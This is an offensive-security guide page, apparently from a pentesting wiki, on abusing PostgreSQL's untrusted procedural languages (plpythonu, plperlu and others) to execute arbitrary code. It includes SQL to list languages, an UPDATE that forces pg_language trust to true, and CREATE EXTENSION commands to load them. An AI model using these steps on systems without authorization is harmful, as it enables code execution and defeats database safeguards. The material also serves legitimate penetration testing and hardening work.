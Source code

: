 ```yaml
---
layout: page
title: PostgreSQL Languages
description:
category: postgresql
toc:
  sidebar: left
---
```


## PostgreSQL Languages

The PostgreSQL database you got access to may have different **scripting languages installed** that you could abuse to **execute arbitrary code**.

You can **get them running**:

```sql
\dL *

SELECT lanname,lanpltrusted,lanacl FROM pg_language;
```

Most of the scripting languages you can install in PostgreSQL have **2 flavours**: the **trusted** and the **untrusted**. The **untrusted** will have a name **ended in "u"** and will be the version that will allow you to **execute code** and use other interesting functions. This are languages that if installed are interesting:

- **plpythonu**
- **plpython3u**
- **plperlu**
- **pljavaU**
- **plrubyu**
- ... (any other programming language using an insecure version)

> [!WARNING]
> If you find that an interesting language is **installed** but **untrusted** by PostgreSQL (**`lanpltrusted`** is **`false`**) you can try to **trust it** with the following line so no restrictions will be applied by PostgreSQL:
>
> ```sql
> UPDATE pg_language SET lanpltrusted=true WHERE lanname='plpythonu';
> # To check your permissions over the table pg_language
> SELECT * FROM information_schema.table_privileges WHERE table_name = 'pg_language';
> ```

> [!CAUTION]
> If you don't see a language, you could try to load it with (**you need to be superadmin**):
>
> ```
> CREATE EXTENSION plpythonu;
> CREATE EXTENSION plpython3u;
> CREATE EXTENSION plperlu;
> CREATE EXTENSION pljavaU;
> CREATE EXTENSION plrubyu;
> ```
